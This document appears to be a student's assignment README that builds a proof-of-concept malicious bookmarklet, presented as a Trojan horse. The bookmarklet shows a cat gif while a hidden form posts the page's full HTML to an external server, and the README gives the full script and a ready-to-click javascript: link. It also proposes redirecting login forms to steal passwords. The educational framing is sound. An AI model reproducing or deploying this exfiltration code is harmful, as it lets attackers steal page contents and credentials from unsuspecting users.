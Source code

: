 # Assignment 2: Bookmarklet
Make a bookmarklet that works against the user.

I wanted to try creating a proof of concept for a malicious bookmarklet, that gathers up the data on the page and sends is to an external server.  I'll package it up with a cute distraction, to make it a very simple variation on the classic Trojan Horse (inspired by [Bonzi Buddy](http://malware.wikia.com/wiki/BonziBUDDY)) 

So our bookmarklet can start out by adding a cute cat gif to the page, "improving" the browsing experience.

The simplest way to do this would be

    $.post(externalUrl, $('body').html,
	     function(data){
		     alert("im in ur webnets, stealin ur data");
     });
But we'll quickly run into complications related to CORS which we can't easily solve.

Instead, I tried using a more traditional HTML form that POSTS to an external URL.

    $('body').append("<form id='evil' action='"+url+"' method='post'>
    <input name='bodyHtml' type='hidden' value='"+bodyHtml+"'>
    <input name='redirectUrl' type='hidden' value='testurl'>
    <input type='submit'>
    </form>");
The submit button is not really necessary but is useful for debugging.

This creates an HTML form with the current page's contents as a hidden input field. It also puts the current URL as one of the fields, so our malicious server knows where to send the user back to after ingesting the stolen data, so that the user may not even notice that they've left their intended page, visited a malicious server, and gone back to where they started. Because we're using a traditional HTML form, we will need to actually leave the current page when we POST the data. But we can cover that up easy enough...

After a delay, we can then submit the form

    $('#evil').submit();

 
This is not entirely functional yet, I think I am running into trouble with escaping quote characters when setting the form input to the bodyHtml. Need to play around with some regex to do this better.

       function injectJquery(callback) {
      if (window.jQuery) {
        return callback(window.jQuery);
      }
      let script = document.createElement('script');
      script.setAttribute(
        'src',
        '//ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js'
      );
      script.onload = () => callback(window.jQuery);
      script.onerror = e => alert('The script failed to load: ' + e);
      document.head.appendChild(script);
    }
    
    var catGifs = ['http://www.catgifpage.com/gifs/325.gif','https://media.tenor.com/images/47b81948be5023555549c01d88ae3289/tenor.gif','https://memesbams.com/wp-content/uploads/2017/11/Hilarious-Cat-Gifs.gif']
    
    injectJquery(function($) {
      var catGif = catGifs[Math.floor(Math.random()*catGifs.length)];
      $('body').prepend("<img src='"+catGif+"'>");
      
      var url = "http://calebcalebcaleb.com/playback.php";
      // A good old fashioned Trojan Horse
      //Activating this bookmarklet will add a cute cat gif to the page. 
      //It will also exfiltrate the contents of the current page and send it to an external server.
      var bodyHtml = encodeURIComponent($('body').html());
      
      $('body').append("<form id='evil' action='"+url+"' method='POST'><input name='bodyHtml' type='hidden' value='"+bodyHtml+"'><input name='redirectUrl' type='hidden' value='"+url+"'><input type='submit'></form>");
      
    
      
      
    });

[Bookmarklet link](javascript:(function() { function injectJquery(callback) {  if (window.jQuery) {    return callback(window.jQuery);  }  let script = document.createElement('script');  script.setAttribute('src', '//ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js');  script.onload = () => callback(window.jQuery);  script.onerror = e => alert('The script failed to load: ' + e);  document.head.appendChild(script);}var catGifs = ['http://www.catgifpage.com/gifs/325.gif', 'https://media.tenor.com/images/47b81948be5023555549c01d88ae3289/tenor.gif', 'https://memesbams.com/wp-content/uploads/2017/11/Hilarious-Cat-Gifs.gif'];injectJquery(function ($) {  var catGif = catGifs[Math.floor(Math.random() * catGifs.length)];  $('body').prepend("<img src='" + catGif + "'>");  var url = "http://calebcalebcaleb.com/playback.php";  var bodyHtml = encodeURIComponent($('body').html());  $('body').append("<form id='evil' action='" + url + "' method='POST'><input name='bodyHtml' type='hidden' value='" + bodyHtml + "'><input name='redirectUrl' type='hidden' value='" + url + "'><input type='submit'></form>");}); })())
  
An alternative solution, similarly malicious but perhaps more elegant, would be to search for existing forms on the page (like a login form) and change its destination URL to a server I control. This would be less obtrusive/detectable for the user, and possibly be more efficient at swiping useful data (like passwords).

But I don't want to get too into making malicious software... the world doesn't need any more of that!
